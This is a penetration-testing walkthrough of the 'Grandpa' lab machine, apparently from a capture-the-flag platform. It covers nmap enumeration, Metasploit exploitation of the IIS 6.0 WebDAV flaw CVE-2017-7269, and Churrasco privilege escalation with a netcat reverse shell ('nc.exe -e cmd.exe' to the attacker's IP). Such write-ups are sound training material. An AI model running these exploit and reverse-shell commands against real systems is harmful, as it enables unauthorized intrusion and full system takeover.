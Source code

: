 ![Header](images/image0.png)

# Grandpa - Penetration Testing Walkthrough (Extended Markdown Report)

This report provides a complete penetration testing walkthrough for the **Grandpa** machine (IP: `10.129.65.28`).  
It follows the same professional structure as previous reports and includes enumeration, vulnerability identification, exploitation, and privilege escalation steps.  
All referenced images are linked as `images/imageX.png`.

---

## 🧭 Enumeration

We began the reconnaissance phase with a comprehensive **Nmap** scan to identify active services and potential vulnerabilities:

```bash
nmap -p- -Pn 10.129.65.28 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.65.28 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.65.28 -v --script vuln -oN nmap_vuln.txt
```

![Nmap Results](images/image7.png)

The scan results revealed that the target was running **Microsoft IIS 6.0** on port **80 (HTTP)** — an older and well-known vulnerable service.

---

## 🧠 Vulnerability Identification: CVE-2017-7269 (IIS 6.0 WebDAV RCE)

During the service version scan, we identified **Microsoft IIS HTTPD 6.0**, which is affected by the **CVE-2017-7269** vulnerability.

### 🔍 Background on CVE-2017-7269

This vulnerability affects the **WebDAV** extension in IIS 6.0 on Windows Server 2003.  
It occurs due to improper validation of the `PROPFIND` request headers, which can lead to a **buffer overflow** in the `ScStoragePathFromUrl` function.  
Attackers can exploit this by sending a specially crafted HTTP request containing malicious Unicode characters, resulting in **remote code execution** (RCE) with the privileges of the web server process.

In essence, this exploit allows full remote command execution on an unpatched IIS 6.0 server — ideal for achieving an initial foothold.

![Exploit Reference](images/image1.png)

---

## ⚔️ Exploitation with Metasploit

Using the **Metasploit Framework**, we searched for and executed the appropriate exploit module for CVE-2017-7269.

```bash
msfconsole
search iis_webdav_scstoragepathfromurl
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.65.28
set LHOST 10.10.15.30
set LPORT 4444
run
```

The exploit was successfully executed, resulting in a **meterpreter shell** as `IUSR_GRANDPA` (the default IIS worker user).

![Metasploit Exploit](images/image4.png)

---

## 🧩 Local Enumeration and Privilege Escalation Analysis

Once inside the system, we used **Meterpreter’s local exploit suggester** to identify possible privilege escalation paths.

```bash
run post/multi/recon/local_exploit_suggester
```

![Exploit Suggester Output](images/image2.png)
![Privilege Escalation Results](images/image8.png)

The results listed multiple kernel-level privilege escalation options. However, none of them were reliable in our testing environment.  
Therefore, we proceeded to attempt manual privilege escalation.

---

## 🧠 Manual Privilege Escalation (Churrasco + Netcat)

We transferred **Churrasco.exe** (a known Windows privilege escalation tool for Windows Server 2003) and **nc.exe** (Netcat) onto the target.  
Churrasco exploits the **SeImpersonatePrivilege** privilege to spawn a SYSTEM-level shell.

![File Upload](images/image6.png)

### Commands Used

```bash
C:\Inetpub\wwwroot> churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.15.30 5555"
```

This command executes Netcat as a reverse shell, connecting back to our machine on port 5555.  
Once the listener received the connection, we had **NT AUTHORITY\SYSTEM** privileges.

![SYSTEM Access](images/image3.png)

---

## 🏁 Root Access and Flag Retrieval

With system-level privileges established, we navigated to the Administrator’s desktop and retrieved both the **user** and **root** flags.

![Flag Locations](images/image5.png)

**User Flag Path:**  
```
C:\Documents and Settings\Harry\Desktop\user.txt
```

**Root Flag Path:**  
```
C:\Documents and Settings\Administrator\Desktop\root.txt
```

---

## ✅ Conclusion

The **Grandpa** machine showcases a classic example of exploiting outdated web infrastructure.  
Through methodical enumeration and exploitation of a publicly known vulnerability, we achieved full system compromise.

**Summary of Steps:**
1. **Enumeration:** Identified IIS 6.0 via Nmap.  
2. **Vulnerability Discovery:** Found and confirmed CVE-2017-7269 (WebDAV buffer overflow).  
3. **Exploitation:** Used Metasploit to gain an initial foothold.  
4. **Privilege Escalation:** Performed manual escalation via Churrasco and Netcat.  
5. **System Compromise:** Achieved NT AUTHORITY\SYSTEM access and obtained both flags.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Port and service enumeration | Initial Scanning |
| **Metasploit Framework** | Exploit CVE-2017-7269 for initial access | Exploitation |
| **Local Exploit Suggester (Metasploit)** | Identify privilege escalation opportunities | Post-Exploitation |
| **Churrasco.exe** | Manual privilege escalation via SeImpersonatePrivilege | Privilege Escalation |
| **nc.exe (Netcat)** | Establish reverse shell connection | Privilege Escalation |
| **Windows CMD / PowerShell** | File transfer and shell management | Post-Exploitation |

---

**User Flag Path:** `C:\Documents and Settings\Harry\Desktop\user.txt`  
**Root Flag Path:** `C:\Documents and Settings\Administrator\Desktop\root.txt`

---

